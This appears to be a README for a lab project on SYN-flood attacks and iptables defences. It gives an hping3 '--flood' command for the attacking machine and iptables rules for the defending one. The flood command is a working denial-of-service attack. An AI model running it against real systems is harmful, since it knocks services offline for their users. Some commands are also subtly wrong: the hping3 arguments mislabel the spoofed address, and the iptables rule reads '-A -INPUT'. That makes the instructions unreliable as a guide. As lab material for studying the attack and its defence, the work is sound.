 # SYN-FLOOD

## Executing attacker_code

First, while connected to a network, run this command:

```
sudo apt install hping3
```


In attacker_code, the format of the hping3 command is:

```
sudo hping3 -S <source-ip> -a <destination-ip> -p 80 --flood
```

The default values for source-ip and destination ip are 192.168.56.103 and 192.168.56.101 respectively. These values need to be altered depending on the ip address of the client device and the ip address of the server device. The client device is the source-ip, and the server device is the defending side. 

## Executing defender_code

If the defending device does not have iptables installed, run the command:

```
sudo apt install iptables
```

There are two defender codes, defender_code_1 and defender_code_2. defender_code_1 is the defense that drops packets from a specific ip address, which may need to be altered depending on what the ip address of the attacker is. 

In defender_code_1, the variable line here is line 2, which has the format:
```
sudo iptables -A -INPUT -s <attacker-ip> -j DROP
```

The default value for attacker-ip is 192.168.56.103. This value needs to be altered to the attacking device IP. 

defender_code_2 is the heuristic defense against syn-flood packets, and does not need any altering. 

For both defense codes, the command 
```
sudo iptables -L -v
```

is run both before and after the defenses are implemented. This command shows the rules that are implemented at the current time. The first ruleset are the rules active before rule implementation, and the second ruleset are the rules active after rule implementation. After the file is run, the second ruleset is the one currently active. 

To clear the ruleset, run the file clear_iptables. This will set the ruleset back to the default rule implementation. 
